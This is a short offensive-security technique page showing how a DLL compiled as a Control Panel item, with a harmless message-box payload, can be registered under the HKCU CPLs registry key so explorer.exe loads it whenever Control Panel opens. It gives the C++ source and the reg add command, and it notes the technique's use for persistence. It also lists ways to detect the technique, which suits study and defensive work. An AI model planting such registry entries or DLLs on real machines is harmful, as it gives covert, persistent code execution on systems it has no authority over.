

# Code Execution through Control Panel Add-ins

It's possible to force explorer.exe to load your DLL that is compiled as a Control Panel Item and is registered as a Control Panel Add-in.


This technique could also be considered for persistence.


## Execution

Let's compile our control panel item \(which is a simple DLL with an exported function `Cplapplet`\) from the below code:

```cpp
#include <Windows.h>
#include "pch.h"

//Cplapplet
extern "C" __declspec(dllexport) LONG Cplapplet(
    HWND hwndCpl,
    UINT msg,
    LPARAM lParam1,
    LPARAM lParam2
)
{
    MessageBoxA(NULL, "Hey there, I am now your control panel item you know.", "Control Panel", 0);
    return 1;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        Cplapplet(NULL, NULL, NULL, NULL);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Let's now register our control panel item as an add-in \(defenders beware of these registry modifications\):

```text
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs" /v spotless /d "C:\labs\cplAddin\cplAddin\x64\Release\cplAddin2.dll" /f
```


Now, whenever the Control Panel is opened, our DLL will be injected into explorer.exe and our code will execute:



Below shows that our DLL is injected into explorer.exe:


## Detection

* Look for modifications in the following registry key: `HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs`
* Look for / prevent DLLs from loading from unsecure locations

## References

[https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET\_InvisiMole.pdf](https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET_InvisiMole.pdf)

